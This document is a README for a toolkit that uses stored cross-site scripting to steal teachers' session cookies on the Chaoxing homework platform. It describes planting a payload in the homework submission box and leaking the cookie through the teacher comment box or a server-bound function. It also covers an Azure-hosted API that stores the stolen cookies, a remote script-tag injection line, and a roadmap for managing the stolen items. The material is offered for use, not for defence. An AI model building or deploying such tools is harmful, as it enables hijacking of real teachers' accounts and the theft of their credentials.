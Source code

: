 ## Doc

### ver 1.0
    a set of js injection tools for steal account cookies of chaoxing platform

- ### ChaoXingAPI
    a restful api for teacher cookies

    models compoents:

        name[string]

        cookie[string]

        time[string]

    already configered for publishing to azure

    `start point: ***.***.***/api/teachercookies`

    ### `remember to set the CSOR policy in app service setting`

- ### payloads.js
    The js code to inject in the homework box in submit page and it will execute when teacher open the homework checking page.
    It will dump the cookie in two ways

    - inject the cookie in text form as html comment in the teacher comment box.
    So the cookie can be lookup in the teacher comment box. [ implemented in stt function ]

    - the second function disabled by default.
    To enable it,modify the server url and uncomment the line that execute the function. [ implemented in sendInfoToServer function ]


- RoadMap
    - add admin page for managering cookie itemes stored on server better. [ important ]
    - 
    - embed js code into api project it [ alternative ]
    - improve the inmemory database to delete the expired cookie automatically. [ archived,it's impossible ]
    - auto delete the cookies added a month ago. [ completed ]


- Tips
  
  Js code can be hosted on server and inject one line of code below to simplify the process.
  - ```<script src="https://www.***.***/***.js"></script>```



# UPDATE 20/12/2
    ! BUG FIXED
